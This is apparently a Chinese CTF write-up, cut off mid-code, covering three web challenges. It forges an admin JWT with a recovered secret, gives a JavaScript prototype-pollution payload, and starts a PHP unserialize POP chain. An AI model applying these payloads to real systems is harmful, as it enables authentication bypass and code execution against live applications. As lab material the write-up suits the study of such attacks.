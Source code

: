 可以看到admin去访问`/hello`时可以拿到flag，而jwt用密钥签名过，所以我们先用python格式化字符串去读取`secret`，payload同上题，然后拿这个密钥去签一个admin的token即可

```python
import jwt

secret = "u_have_kn0w_what_f0rmat_i5"
headers = {
        'alg': 'HS256',
        'typ': 'JWT'
    }

payload = {
        "name": "admin",
    }

token = jwt.encode(payload, secret, algorithm='HS256', headers=headers)
print(token)

```

拿到token直接修改或者发包都行

### fake game

预期解是原型链污染，[指路](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html)，payload: `{"attributes": {"health": 0, "attack": 0, "armor": 0, "__proto__": {"health": 10000, "attack": 10000, "armor": 1000}}}`

### eeeeeeeeeeeeezunserialize

非常简单的pop链

```php
<?php

class entrance
{
    public $start;

    function __construct($start)
    {
        $this->start = $start;
    }

    function __destruct()
    {
        $this->start->helloworld();
    }
}

class springboard
{
    public $middle;

    function __call($name, $arguments)
    {
        echo $this->middle->hs;
    }
}

class evil
{
    public $end;

    function __construct($end)
```